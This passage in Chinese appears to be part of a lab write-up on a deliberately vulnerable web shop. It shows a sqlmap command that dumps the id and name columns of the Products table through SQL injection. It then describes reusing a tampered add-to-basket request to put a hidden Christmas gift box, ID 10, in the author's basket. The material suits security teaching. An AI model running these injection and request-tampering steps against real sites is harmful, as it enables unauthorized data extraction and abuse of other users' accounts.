 **发现列名id和name可利用**

 
**尝试恢复Products表中的指定列，发现⽬标商品！其ID号为10**
```
sqlmap -r 123.txt --level 2 -p "q" --dbms='sqlite' -T Products -C id,name --dump --no-cast --threads 10
```

![get](./img_12/exp2/sqlmap4.png)

### 步骤三：将圣诞特别惊喜礼盒加⼊购物车
**使用之前为其他用户添加商品到购物篮的包将自己的购物篮中添加ID为10的商品，即添加圣诞特别惊喜礼盒到自己的购物篮,根据响应中的success可知添加成功**
